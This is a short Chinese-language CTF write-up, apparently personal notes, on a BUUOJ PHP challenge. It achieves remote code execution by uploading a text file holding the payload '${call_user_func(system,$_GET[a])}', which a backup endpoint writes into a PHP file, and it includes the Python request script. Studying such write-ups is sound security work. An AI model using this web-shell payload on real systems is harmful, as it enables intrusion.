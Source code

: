 tags:: CTF/PHP/RCE

- # 思路
	- 通过写入PHP文件中的模板字符串进行RCE
- # 模板字符串RCE
	- PHP可以通过类似`"${phpinfo()}"`的语法使用模板字符串，可以用于RCE
	- 最后的脚本
		- ```python
		  # url = "http://127.0.0.1:8082/index.php"
		  url = "http://a4b49755-a407-4c83-8053-8f569ccbb036.node4.buuoj.cn:81"
		  content = "12${var_dump(114514)}3${call_user_func(system,$_GET[a])}"
		  filename = f"aaa.txt"
		  r = base_post(url + "/upload/profile" + "?", files = {
		      "file": (filename, content, "text/plain")
		  })
		  r = base_post(url + "/back/backup" + "?", data = {
		      "filename": filename,
		      "dest": "profile/b.txt"
		  })
		  print(r.text)
		  
		  ```
- # 分析
	- 三个class的功能
		- home: 打印主页和profile文件夹的文件目录
		- upload: 接受上传文件
			- 限制：后缀只能为txt, 大小限制在200k
		- back: 备份文件
			- 通过`htmlspecialchars`后将文件内容写入某个php文件中
			- 支持伪协议？
			- _write: 仅支持指定内容的php文件